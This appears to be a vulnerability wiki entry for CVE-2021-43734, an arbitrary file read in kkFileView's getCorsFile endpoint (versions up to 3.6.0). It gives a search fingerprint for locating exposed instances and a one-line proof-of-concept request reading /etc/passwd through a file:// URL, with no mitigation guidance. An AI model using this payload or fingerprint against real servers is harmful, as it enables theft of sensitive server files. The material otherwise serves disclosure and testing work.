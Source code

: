# kkFileView getCorsFile arbitrary file reading vulnerability CVE-2021-43734

## Vulnerability Description

There is a vulnerability to read any file in the kkFileView getCorsFile version 3.6.0. The attacker can obtain any file in the server and obtain sensitive information from the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">kkFileView getCorsFile <= 3.6.0</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="kkFileView" </span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652453158898-01e2a7f9-f2eb-44ba-8715-06fed288748e.png)



Verify POC

```java
/getCorsFile?urlPath=file:///etc/passwd 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1652453877704-2f24206f-efe1-459d-b0ff-5a2604605cc9.png)